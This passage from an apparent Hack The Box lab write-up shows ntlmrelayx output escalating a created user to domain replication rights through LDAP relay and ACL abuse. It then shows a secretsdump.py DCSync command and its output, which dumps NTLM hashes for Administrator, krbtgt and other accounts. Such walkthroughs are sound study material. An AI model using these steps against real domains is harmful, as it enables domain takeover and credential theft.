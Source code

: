    [*] Servers started, waiting for connections
    [*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
    [*] HTTPD: Client requested path: /
    [*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
    [*] HTTPD: Client requested path: /
    [*] HTTPD: Client requested path: /
    [*] Authenticating against ldap://10.10.10.161 as \created_01 SUCCEED
    [*] Enumerating relayed user's privileges. This may take a while on large domains
    [*] HTTPD: Received connection from 127.0.0.1, attacking target ldap://10.10.10.161
    [*] HTTPD: Client requested path: /favicon.ico
    [*] HTTPD: Client requested path: /favicon.ico
    [*] HTTPD: Client requested path: /favicon.ico
    [*] User privileges found: Create user
    [*] User privileges found: Modifying domain ACL
    [*] Querying domain security descriptor
    [*] Success! User created_01 now has Replication-Get-Changes-All privileges on the domain
    [*] Try using DCSync with secretsdump.py and this user :)
    [*] Saved restore state to aclpwn-20191105-184250.restore
    [*] Authenticating against ldap://10.10.10.161 as \created_01 SUCCEED
    [*] Enumerating relayed user's privileges. This may take a while on large domains
    [-] Exception in HTTP request handler: [Errno 32] Broken pipe
    [-] [Errno 32] Broken pipe
    [*] User privileges found: Create user
    [*] User privileges found: Modifying domain ACL
    [-] ACL attack already performed. Refusing to continue

## DCSync

Our right where sufficient to escalate to get the ` Replication-Get-Changes-All`
privileges on the domain. As mention by `ntlmrelayx` we can now use a
[DCSync](https://adsecurity.org/?p=1729) attack on the domain using
[impacket's secretdump.py](https://github.com/SecureAuthCorp/impacket/) to get
the users' passwords hashes.

    :::text
    python secretsdump.py 'htb.local/created_01:M<redacted>@10.10.10.161'
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::